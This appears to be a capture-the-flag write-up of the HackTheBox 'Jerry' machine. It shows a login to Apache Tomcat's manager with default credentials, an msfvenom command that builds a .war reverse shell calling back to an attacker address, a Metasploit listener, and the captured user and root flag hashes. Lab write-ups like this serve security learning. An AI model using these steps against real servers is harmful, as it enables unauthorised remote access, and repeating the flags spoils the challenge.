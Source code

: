 ```yaml
---
layout: post
title:  "HTB Jerry Windows"
description : Easy machine, you will learn about Apache Tomcat exploitation and .war shells!
tags: HTB, apache, war
---
```


# Recon
![](https://miro.medium.com/max/737/1*qddW5evThv4QR1uIfYC0XQ.png)

![](https://lh3.googleusercontent.com/lLlV5UIbdpazmEEcIr6qKBybJZ732DwtBT-fAwF75sWQDd9XHJLniEZCX0GD-ZpqhDWs5F1LXBtAunaMTrlsAiaZ8cYoInv20JlAsC8EhcjxGwDX0O_KJZAXc7l8o6NCPzNsnaN3foLpJKnsalHb-Ctrqmtc4LNpdO6UIWd_wG82Kg33mDTCSqicQGedc1e3sFUsoLaZEYStbaE-CwzciFuTK_MkcFnIlST8MQECDFeb7Lax0jYtpzNfVk6vZY8AaW5SjsC_05WAnBNR4unD32Jm2hDPbpbgZr8mVh4NI4u6P4bF8aD_ODB6imkJYAAVhJxZls1kH1T0yddQd7KvVzX2b_oWLeJmHzLMLHPBTIe4rP7zqtQNmc3jEfwrjWiiVE8eYuqPFo95506gOB3TSgkcfd_fgJjq9xABQ7dN0tJgjKx8MhleX_q9TbnEKK4C5B58QTPSnNwyWTA7re37ToGWBvkoTJiAJPzST6uJoTXgByF6RSUCKiM2vmyEpM4g6soNFgf0zxijl_vMNk6QUY9xbcL-kejj6isnyyFS0L3oxKPO7pidCm84S4C0ZlJAn4aNW0VuLNFnvbnZJonYRNjjjWr47cdIhaLFKz-pdWC8tFZOHg6mOIMSlU0T14lCp4x_ALYx65dYObwRolBySU41oWYavrcW4n8jKU-dv_7zLLVHB-MQxr4=w1011-h462-no)

# Exploitation
Apache Tomcat is running on port:8080. 
Clicking on the **manager app** pops up the admin login page. Credentials are needed for admin
- After some google search we find the default creds for Apache Tomcat. admin:s3cret
We login into the admin page.
![](https://lh3.googleusercontent.com/gW2JGEBfDkS4WFeP-7VkoyNxaWu7sccwYWgfJ-wnvRfV4ALfJfxxBHnQIwYcixhxZGb8CjiCqlPlrId0cLYxFjCu5lkpLreJhmdmHqPUvR8DlTK1xUlDLUjlCdDBSiUbkkgKXrCjnePa0_OU-zn8_g4HtfSXJmqVHYhtFaT3XNdfMtATf3xE2TNCnPg98Y9Vb4mN5Q8B0wYkAELaRXcGSbgG1ftJaHpZsjW0R5IYid4EMCxPSVn5WmQmy2dKgu1ZluCZ5sMYiy9CEHSxvuOwe5bGd_PJ2gl1K67VE5RG_skWYWPz5vdjCK1wiJoKCkKtOsmYbZijOuR2ApywLp3KHTFuFfODKSCbcPJPYc4BNQKyrRezl8oYNqZ7j69hzi2MlOlE5Hl9RaXn_q0L48nNaUvjVg4Ka-nPPqxzdQbxmsJUTgFrBHVmyzdLDrIwDx0pNWhllvw05Y2XB5E7nL8wYZf9OClhUK2Ojek-RX5jap3_ad1AVzTjrPW42EIzKm-Li3YoZEa9Ro2sMyKDiE8RQb6YK-AhYgt7EHp5e52Ewbq5bqoyN2MUNpvbKsAeytn36kx253R837gfHeBoVJBhM785RL3x1OT5OMKgAUdCYD579-weaU51uFB6g9A8GhGfpsNEWR64m6s7nOv0mI7Dhw3a-Lb5IjMMJdF7kRykDQ3t9D3LF9Fvdak=w1335-h322-no)

Doing some enumaration on the app reveals that we can upload files .WAR
![](https://lh3.googleusercontent.com/B_21jFkyJqsFh7JKORJXQ3WKxgZU1nbUDzIkVuXz5QeILxHZ38L8sRyJ5oTklbzYSoPwDS1txwPInq27C97llJmvQIxnf3zaUPB6EFijfyvgNRhq8FF0tKwHt8IXE9iouxJHwSxz-ZthYOvg_Y4-i_dkRYedPa2iMNKcMK4RV9AguMDDdulTlRUZh3v6n52-TIzwpe56cxui30roAYkndalw0CkO6qssOWlDn09wiX4LKGoS2Zx5YiE4gU5-8j3EUWQUf6YB-CMd5qP8Yu9syDwQTtRADdbXo5nQ_65TRpWwj-q2gSfnzjRHkXBzYwpBA8dJ3v4jgOEhxYWQX2vw2pOa3qMHcdzhVqVkw3mGxyM9IE7VcFJjOjsVxLzx2Euec8xPDjHNui3S56FXUHbFeHjwGfeSa--uhvEvJ2brlun3HkQFF50ZFT2kwneC7G8_YXHQCVGEm1usXn0D4xIhOD-EgdCQlxdwLvVo-Ky_Z3E3NHxo8b8uwWarASIuD0xovlBZ9Ra7vVGqodMkh_RgxJF1yslOYSvdbLRUmW0ERzQ4C_y4H-4he2TDbAlEz5Nh9v49dqFLeUo4pTbCwSPDRp4CPzaS78-gmZ4CAJ2MP0pDJb99IbiYWuPLZK1B55DWok7vc87olaif7IaYYzSxGRgjGgeExlCcIQSvcKdhEbzHfj_gKx8nF1Y=w725-h300-no)

So we create a reverse shell using msfvenom and deployed on tomcat
```ruby
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.14
LPORT=9999 -f war > evil.war 
```
we use metasploit and set up  **use exploit/multi/handler** . We collect the flags as we have a shell we elevated privileges.

```ruby
USER "7004dbcef0f854e0fb401875f26ebd00"
ROOT "04a8b36e1545a455393d067e772fe90e"
```
